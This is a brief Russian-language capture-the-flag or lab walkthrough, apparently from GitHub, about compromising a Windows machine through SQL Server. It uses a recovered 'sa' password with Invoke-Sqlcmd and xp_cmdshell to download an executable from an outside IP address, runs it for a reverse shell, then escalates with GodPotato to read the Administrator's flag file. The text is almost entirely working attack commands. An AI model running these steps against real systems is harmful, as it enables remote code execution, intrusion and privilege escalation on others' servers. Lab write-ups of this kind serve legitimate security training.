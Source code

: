 Подключаемся к машине и находим файл с историей команд из консоли
Используя команду```
 Invoke-Sqlcmd -ServerInstance 'localhost' -Username 'sa' -Password 'QAZwsxEDC321!' -Query 'SELECT * FROM sys.tables'``` изменим значение Query чтобы выполнять команды от пользователя sa (который имеет роль sysadmi)

Получим список пользователей для проверки роли пользователя sa:
	``` Invoke-Sqlcmd -ServerInstance 'localhost' -Username 'sa' -Password 'QAZwsxEDC321!' -Query 'SELECT r.name, r.type_desc, r.is_disabled, sl.sysadmin, sl.securityadmin, sl.serveradmin,                    >> sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin                         >> FROM master.sys.server_principals r                                                              >> LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid'```

Создадим файл с полезной нагрузкой и установим его на машину```
 Invoke-Sqlcmd -ServerInstance 'localhost' -Username 'sa' -Password 'QAZwsxEDC321!' -Query "EXEC xp_cmdshell 'powershell iwr http://100.100.2.252:5555/test.exe -o c:\windows\tasks\test.exe';"```
Теперь запустим файл и получим обратный шел```
 Invoke-Sqlcmd -ServerInstance 'localhost' -Username 'sa' -Password 'QAZwsxEDC321!' -Query "EXEC xp_cmdshell 'c:\windows\tasks\test.exe';" ```

Получив шелл от nt service\mssqlserver все еще нет доступа к папке администратора. Установим GodPotato и прочитаем флаг с помощью```
 .\god.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\flag.txt"```
